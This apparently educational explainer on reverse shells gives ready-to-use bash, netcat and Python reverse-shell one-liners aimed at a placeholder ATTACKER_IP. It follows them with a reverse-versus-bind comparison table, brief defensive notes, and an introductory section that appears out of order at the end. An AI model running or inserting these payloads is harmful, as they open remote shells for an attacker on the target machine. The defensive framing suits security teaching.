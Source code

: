 **Bash** :

```bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

**Netcat (if supports `-e`)** :

```bash
nc -e /bin/sh ATTACKER_IP 4444
```

**Python** :

```python
python -c 'import socket,os,pty;s=socket.socket();s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

---

## 🎯 Reverse Shell vs Bind Shell

| Feature                      | Reverse Shell                     | Bind Shell                        |
| ---------------------------- | --------------------------------- | --------------------------------- |
| **Who initiates connection** | Target → Attacker                 | Attacker → Target                 |
| **Firewall evasion**         | Often bypasses inbound blocks     | Often blocked by inbound rules    |
| **NAT traversal**            | Works behind NAT                  | Harder behind NAT                 |
| **Setup**                    | Attacker listens, target connects | Target listens, attacker connects |

---

## 🛡 Defensive Notes

- **Network monitoring** : Watch for unusual outbound connections.
- **Egress filtering** : Restrict outbound traffic to only what’s needed.
- **Endpoint detection** : Look for suspicious processes making network connections.

---

💡 **In short:**

A reverse shell is like tricking a locked building into calling you on the phone — once the call is connected, you can give instructions from the outside. It’s a core post‑exploitation technique in penetration testing and red teaming.

---

---

## 1️⃣ The Basics — What is a Reverse Shell?

A **reverse shell** is a method of getting remote command-line access to a machine where **the target connects back to the attacker** .

